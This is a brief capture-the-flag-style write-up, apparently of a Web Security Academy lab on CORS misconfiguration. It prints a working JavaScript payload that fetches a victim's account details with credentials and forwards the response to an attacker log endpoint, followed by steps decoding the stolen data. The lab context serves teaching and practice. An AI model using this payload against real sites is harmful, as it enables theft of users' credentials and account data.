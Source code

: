 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	**_The script does the following:_**   
		 - Create an XMLHttpRequest instance.  
		 - Set the event handler that will be called when the response is received.  
		 - opening a GET request to the URL to retrieve account details  
		 - Sending cookies and HTTP authentication information in the request  
		 - Sending the request  
		 - Event handler function called when a response is received from the server  
		 - forwarding the current page to a log file with the received response text as parameter  

2. After supposedly executing the script on victims machine his credentials get logged:   

	![grafik](https://user-images.githubusercontent.com/62068604/235905598-e0c9da27-2a71-47e4-9d20-2c2bb64555c8.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
